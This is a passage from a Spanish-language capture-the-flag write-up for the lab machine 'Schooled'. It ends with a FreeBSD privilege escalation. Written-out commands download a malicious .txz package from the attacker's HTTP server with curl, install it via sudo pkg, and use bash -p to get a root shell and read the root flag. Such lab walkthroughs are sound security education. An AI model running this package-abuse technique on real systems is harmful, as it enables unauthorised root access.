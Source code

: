 **Máquina atacante**
```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**Máquina víctima**
```bash
jamie@Schooled:~ $ curl  http://10.10.14.13:8000/x-1.0.txz -o /tmp/malicious-package.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   504  100   504    0     0   3111      0 --:--:-- --:--:-- --:--:--  3111
jamie@Schooled:~ $ ls /tmp/malicious-package.txz
/tmp/malicious-package.txz
```

Una vez en este punto, ejecutaremos este comando para **instala** el paquete malicioso:

```bash
jamie@Schooled:/tmp $ sudo -u root /usr/sbin/pkg install -y --no-repo-update /tmp/malicious-package.txz 
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
	x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0:   0%
pkg: File //tmp/tmp.cVxfddvCO5/x.sh not specified in the manifest
Extracting x-1.0: 100%
```
Y listo! Se supone que se debería de haber ejecutado el **comando** que introducimos en el paquete malicioso.

Para comprobarlo, ejecutemos `bash -p`, y si ha funcionado, deberíamos obtener una **shell como usuario root**:

```bash
jamie@Schooled:/tmp $ bash -p
[jamie@Schooled /tmp]# whoami
root
```
¡¡Ha funcionado!! Una vez en este punto, podremos visualizar la flag `root.txt` en la ruta `/root/root.txt`

```bash
[jamie@Schooled /tmp]# cat /root/root.txt
98aXXXXXXXXXXXXXXXXXXXXXXXXXXb39
```

# Resumen
